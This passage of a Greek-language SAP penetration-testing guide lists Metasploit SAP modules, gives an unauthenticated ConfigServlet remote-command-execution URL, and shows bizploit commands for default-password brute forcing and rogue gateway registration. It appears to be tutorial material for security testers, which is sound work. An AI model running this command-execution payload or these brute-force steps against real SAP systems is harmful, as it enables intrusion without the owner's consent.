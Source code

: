 ```text
auxiliary/scanner/sap/sap_soap_rfc_rzl_read_dir                                           normal     SAP SOAP RFC RZL_READ_DIR_LOCAL Directory Contents Listing
auxiliary/scanner/sap/sap_soap_rfc_susr_rfc_user_interface                                normal     SAP /sap/bc/soap/rfc SOAP Service SUSR_RFC_USER_INTERFACE Function User Creation
auxiliary/scanner/sap/sap_soap_rfc_sxpg_call_system_exec                                  normal     SAP /sap/bc/soap/rfc SOAP Service SXPG_CALL_SYSTEM Function Command Execution
auxiliary/scanner/sap/sap_soap_rfc_sxpg_command_exec                                      normal     SAP SOAP RFC SXPG_COMMAND_EXECUTE
auxiliary/scanner/sap/sap_soap_rfc_system_info                                            normal     SAP /sap/bc/soap/rfc SOAP Service RFC_SYSTEM_INFO Function Sensitive Information Gathering
auxiliary/scanner/sap/sap_soap_th_saprel_disclosure                                       normal     SAP /sap/bc/soap/rfc SOAP Service TH_SAPREL Function Information Disclosure
auxiliary/scanner/sap/sap_web_gui_brute_login                                             normal     SAP Web GUI Login Brute Forcer
exploit/multi/sap/sap_mgmt_con_osexec_payload                            2011-03-08       excellent  SAP Management Console OSExecute Payload Execution
exploit/multi/sap/sap_soap_rfc_sxpg_call_system_exec                     2013-03-26       great      SAP SOAP RFC SXPG_CALL_SYSTEM Remote Command Execution
exploit/multi/sap/sap_soap_rfc_sxpg_command_exec                         2012-05-08       great      SAP SOAP RFC SXPG_COMMAND_EXECUTE Remote Command Execution
exploit/windows/browser/enjoysapgui_comp_download                        2009-04-15       excellent  EnjoySAP SAP GUI ActiveX Control Arbitrary File Download
exploit/windows/browser/enjoysapgui_preparetoposthtml                    2007-07-05       normal     EnjoySAP SAP GUI ActiveX Control Buffer Overflow
exploit/windows/browser/sapgui_saveviewtosessionfile                     2009-03-31       normal     SAP AG SAPgui EAI WebViewer3D Buffer Overflow
exploit/windows/http/sap_configservlet_exec_noauth                       2012-11-01       great      SAP ConfigServlet Remote Code Execution
exploit/windows/http/sap_host_control_cmd_exec                           2012-08-14       average    SAP NetWeaver HostControl Command Injection
exploit/windows/http/sapdb_webtools                                      2007-07-05       great      SAP DB 7.4 WebTools Buffer Overflow
exploit/windows/lpd/saplpd                                               2008-02-04       good       SAP SAPLPD 6.28 Buffer Overflow
exploit/windows/misc/sap_2005_license                                    2009-08-01       great      SAP Business One License Manager 2005 Buffer Overflow
exploit/windows/misc/sap_netweaver_dispatcher                            2012-05-08       normal     SAP NetWeaver Dispatcher DiagTraceR3Info Buffer Overflow
```
* Προσπαθήστε να χρησιμοποιήσετε μερικά γνωστά exploits \(check out Exploit-DB\) ή επιθέσεις όπως η παλιά αλλά καλή “SAP ConfigServlet Remote Code Execution” στο SAP Portal:
```text
http://example.com:50000/ctc/servlet/com.sap.ctc.util.ConfigServlet?param=com.sap.ctc.util.FileSystemConfig;EXECUTE_CMD;CMDLINE=uname -a
```
![SAP Config Servlet RCE](https://raw.githubusercontent.com/shipcod3/mySapAdventures/master/screengrabs/sap_rce.jpeg)

* Πριν εκτελέσετε την εντολή `start` στο σενάριο bizploit στη φάση Discovery, μπορείτε επίσης να προσθέσετε τα εξής για να εκτελέσετε αξιολόγηση ευπαθειών:
```text
bizploit> plugins
bizploit/plugins> vulnassess all
bizploit/plugins> vulnassess config bruteLogin
bizploit/plugins/vulnassess/config:bruteLogin> set type defaultUsers
bizploit/plugins/vulnassess/config:bruteLogin> set tryHardcodedSAPStar True
bizploit/plugins/vulnassess/config:bruteLogin> set tryUserAsPwd True
bizploit/plugins/vulnassess/config:bruteLogin> back
bizploit/plugins> vulnassess config registerExtServer
bizploit/plugins/vulnassess/config:registerExtServer> set tpname evilgw
bizploit/plugins/vulnassess/config:registerExtServer> back
bizploit/plugins> vulnassess config checkRFCPrivs
bizploit/plugins/vulnassess/config:checkRFCPrivs> set checkExtOSCommands True
bizploit/plugins/vulnassess/config:checkRFCPrivs> back
```